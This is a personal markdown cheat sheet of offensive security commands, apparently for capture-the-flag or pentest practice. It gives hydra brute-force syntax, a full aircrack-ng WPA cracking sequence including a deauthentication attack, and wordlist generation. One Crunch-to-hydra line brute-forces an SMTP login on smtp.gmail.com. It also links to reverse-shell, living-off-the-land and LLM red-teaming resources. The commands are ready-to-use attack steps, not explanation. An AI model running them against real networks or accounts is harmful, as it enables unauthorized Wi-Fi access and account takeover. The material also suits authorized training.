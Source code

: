 # note_dump_games

Bruteforce
  - hydra
    - https://www.kali.org/tools/hydra/
    - https://youtu.be/-CMBoJ60K1A?t=910
    - Ex. ```hydra -l <username> -P <wordlist> <protocol>://<target.ip.here> -V -I -F -t <number of threads>```
  - aircrack (WPA)
    -  https://www.kali.org/tools/aircrack-ng/
    -  Ex.
      -  ```airmon-ng check kill```
      -  ```airmon-ng start <interface>```
        or
         ```ip link set <interface> down```
         ```iw <interface> set monitor none```
         ```ip link set <interface> up```
      -  ```airodump-ng <interface>```
      -  ```airodump-ng <interface> --channel <target channel> --bssid <target bssid> -w output```
      -  ```aireplay-ng --deauth 100 -a <target bssid> 0c <target mac> <interface>```
      -  ```aircrack-ng -w <worldlist> -b <target bssid> <cap file> -a2```
        or
         ```crunch [options] | aircrack-ng -b <target bssid> <cap file> -a2```
        or
         use hashcat

Wordlist generation
  - CeWL
    - https://www.kali.org/tools/cewl/
    - https://www.youtube.com/watch?v=ec1ZmW1YxqA
    - https://www.youtube.com/watch?v=nNvhK1LUD48
    - Ex. ```cewl --depth 2 --write path/to/wordlist.txt url```

  - Crunch
    - https://www.kali.org/tools/crunch/
    - https://www.youtube.com/watch?v=0ouVxR7hLvE
    - Ex. ```crunch 1 6 123456 --stdout | hydra -S -l [email protected] -v -V -e nsr -s 465 smtp.gmail.com smtp```

Command reference
  - TLDR
    -  https://tldr.inbrowser.app/
  - Reverse shells
    - https://www.revshells.com/
    - https://ub3rsec.github.io/pages/rev-shell-cheatsheet.html
    - https://0xffsec.com/handbook/shells/full-tty/
    - https://zweilosec.github.io/posts/upgrade-linux-shell/

Living off the land
  - https://lolbas-project.github.io/
  - https://gtfobins.github.io/
  - https://www.loldrivers.io/

Pentest Guides
  - https://book.hacktricks.xyz/
  - https://0xffsec.com/
  - https://www.stationx.net/how-to-use-aircrack-ng-tutorial/

LLM Stuff
  -  https://www.youtube.com/@intigriti
  -  https://www.promptfoo.dev/docs/red-team/

Hash reference
  - https://hashcat.net/wiki/doku.php?id=example_hashes

